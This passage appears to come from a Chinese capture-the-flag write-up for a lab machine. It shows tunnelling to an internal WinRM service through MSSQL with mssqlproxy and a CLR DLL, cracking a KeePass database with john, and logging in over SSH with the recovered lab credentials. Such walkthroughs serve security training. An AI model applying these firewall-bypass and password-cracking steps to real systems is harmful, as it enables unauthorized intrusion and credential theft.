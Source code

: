 能看到winrm服务是正常开放的，但是这是在内网中运行的服务，外部不能直接访问，之前的nmap端口扫描结果也能验证这一点，并且邮件中提示所有TCP, UDP, 甚至ICMP的output都被封掉了，像chisel这样的HTTP代理工具通过socks协议来实现访问，其本质是基于TCP连接的，还是要和kali建立TCP的连接，但是此处TCP出站是被禁止的。

通过mssqlproxy把内网中的服务转发出来，从而得到evil-winrm的shell，msssqlproxy通过sqlserver来建立通信，从而可以绕过防火墙本身的封锁，使用的TDS协议，这是
SQL Server ⽤于与客户端通信的协议。

```bash
python3 mssqlproxy/mssqlclient.py 'sa:#mssql_s3rV1c3!2020@10.10.10.240'

enable_ole
upload reciclador.dll C:\windows\temp\reciclador.dll

python mssqlproxy/mssqlclient.py 'sa:#mssql_s3rV1c3!2020@10.10.10.240' -install -clr assembly.dll

python mssqlproxy/mssqlclient.py 'sa:#mssql_s3rV1c3!2020@10.10.10.240' -start -reciclador 'c:\programdata\reciclador.dll'

/etc/proxychains4.conf # 添加一行socks5代理
socks5  127.0.0.1 1337
```

测试一下mssqlproxy是否已经建立

```bash
sudo proxychains4 nmap -sT -p 5985 127.0.0.1
PORT     STATE SERVICE
5985/tcp open  wsman
```

#### 破解kdbx密码

```bash
keepass2john credentials.kdbx > kdbx_hash
john kdbx_hash --wordlist=/usr/share/wordlists/rockyou.txt
mahalkita
```

```bash

show -f 'Sample Entry'
show -f Sample\ Entry\ #2

kpcli:/Database> show -f 'Windows/SSH'

 Path: /Database/Windows/
Title: SSH
Uname: 3v4Si0N
 Pass: Gu4nCh3C4NaRi0N!23
  URL: 
Notes:
```

```bash
ssh 3v4Si0N@LicorDeBellota.htb
```

#### 通过bloodhound一路横移

